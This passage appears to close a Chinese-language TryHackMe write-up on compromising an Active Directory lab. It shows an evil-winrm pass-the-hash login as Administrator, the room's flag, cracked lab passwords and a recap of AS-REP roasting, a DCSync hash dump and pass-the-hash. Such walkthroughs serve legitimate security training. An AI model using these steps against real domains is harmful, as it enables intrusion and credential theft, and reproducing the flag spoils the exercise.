evil-winrm -i 10.48.130.9 -u Administrator -H '0e0363213e37b94221497260b0bcb4fc'
```

### 我用的python版本，不需要加-d 参数，ruby版本要加-d 域名 

### 然后直接给你弹个shell过来,和前两个用户的flag一样，放桌面

```bash
TryHackMe{4ctiveD1rectoryM4st3r}
```





## 终于结束了😃😄😄😄🐸

**完整的攻击链路回顾：**

```
1. 信息收集 (enum4linux-ng)
   ↓
2. 用户名枚举 (kerbrute userenum)
   ↓
3. AS-REP Roasting (GetNPUsers.py + hashcat)
   → 破解了 svc-admin 的密码: management2005
   ↓
4. 横向移动 (smbclient 访问 backup 共享)
   → 找到了 backup 账户凭据: backup2517860
   ↓
5. DCSync 攻击 (secretsdump.py)
   → 用 backup 的 DCSync 权限转储所有用户哈希
   ↓
6. Pass-the-Hash (evil-winrm-py)
   → 用 Administrator 的 NTLM 哈希登录
   ↓
完全控制 AD 域 ✅
```
